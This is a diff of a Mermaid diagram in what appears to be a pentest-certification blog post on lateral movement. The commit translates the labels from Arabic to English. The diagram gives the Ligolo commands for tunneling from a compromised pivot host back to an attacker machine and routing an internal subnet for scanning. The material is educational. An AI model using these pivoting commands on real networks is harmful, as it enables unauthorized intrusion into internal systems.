

The third of 3 diagrams in _posts/2026-11-12-ecppt-v3-part-6-lateral-movement-and-pivoting.md (3bdo-fathi/3bdo-fathi.github.io), drawn with Mermaid (base theme) before and after one commit. The commit also changed other lines of this file and 11 other files, not shown here.

````diff
--- a/_posts/2026-11-12-ecppt-v3-part-6-lateral-movement-and-pivoting.md
+++ b/_posts/2026-11-12-ecppt-v3-part-6-lateral-movement-and-pivoting.md
@@ -130,15 +131,15 @@
 ```mermaid
 sequenceDiagram
     autonumber
-    actor Attacker as جهاز كالي لينكس (Ligolo Proxy)
-    participant TUN as واجهة TUN (ligolo)
-    actor Pivot as الخادم المخترق (Ligolo Agent)
-    participant Internal as الشبكة الداخلية المعزولة (172.16.1.0/24)
+    actor Attacker as Kali Attacker (Ligolo Proxy)
+    participant TUN as Virtual TUN Device (ligolo)
+    actor Pivot as Compromised Pivot Host (Ligolo Agent)
+    participant Internal as Internal Subnet (172.16.1.0/24)
     
-    Attacker->>TUN: إعداد واجهة شبكة افتراضية: sudo ip tuntap add mode tun ligolo
-    Attacker->>Attacker: تشغيل خادم Ligolo: ./proxy -selfcert -laddr 0.0.0.0:11601
-    Pivot->>Attacker: تشغيل العميل: ./agent -connect 10.10.14.5:11601 -ignore-cert
-    Attacker->>Pivot: جلسة متصلة! اختيار العميل وبدء النفق: session -> start
-    Attacker->>TUN: إضافة مسار توجيه نظامي للشبكة المعزولة:<br/>sudo ip route add 172.16.1.0/24 dev ligolo
-    Note over Attacker,Internal: الآن يمكن عمل Ping وفحص SYN وفحص Nmap دون الحاجة لـ Proxychains نهائيًا!
+    Attacker->>TUN: Configure TUN interface: sudo ip tuntap add mode tun ligolo
+    Attacker->>Attacker: Launch Ligolo Proxy server: ./proxy -selfcert -laddr 0.0.0.0:11601
+    Pivot->>Attacker: Execute Agent: ./agent -connect 10.10.14.5:11601 -ignore-cert
+    Attacker->>Pivot: Session established! Select agent and initiate tunnel: session -> start
+    Attacker->>TUN: Add system route: sudo ip route add 172.16.1.0/24 dev ligolo
+    Note over Attacker,Internal: Entire subnet is now natively routable! Nmap SYN scans and ping work seamlessly.
 ```
````
